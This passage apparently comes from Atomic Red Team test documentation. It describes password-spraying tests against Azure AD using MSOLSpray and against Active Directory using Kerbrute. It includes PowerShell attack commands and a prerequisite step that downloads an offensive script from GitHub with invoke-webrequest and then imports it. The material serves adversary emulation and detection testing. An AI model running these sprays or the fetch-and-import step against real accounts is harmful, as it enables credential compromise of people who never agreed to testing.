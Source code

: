 ```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\MSOLSpray.ps1"
Invoke-MSOLSpray -UserList "#{user_list}" -Password "#{password}"
```

#### Dependencies: Run with `powershell`!

##### Description: MSOLSpray module must exist in PathToAtomicsFolder\..\ExternalPayloads.

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\MSOLSpray.ps1"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/dafthack/MSOLSpray/922f159104fb3ec77c9fc6507a6388a05c227b5f/MSOLSpray.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\MSOLSpray.ps1"
```

<br/>
<br/>

## Atomic Test #8 - Password Spray using Kerbrute Tool

Test a single password against a list of users

**Supported Platforms:** Windows

**auto_generated_guid:** c6f25ec3-6475-47a9-b75d-09ac593c5ecb

#### Inputs:

| Name             | Description                              | Type   | Default Value      |
| ---------------- | ---------------------------------------- | ------ | ------------------ |
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain |
| domain           | Domain where you will be testing         | string | $ENV:userdomain    |

#### Attack Commands: Run with `powershell`!

```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe passwordspray --dc #{domaincontroller} -d #{domain} "PathToAtomicsFolder\..\ExternalPayloads\passwordspray.txt" password132
```

#### Dependencies: Run with `powershell`!

##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads
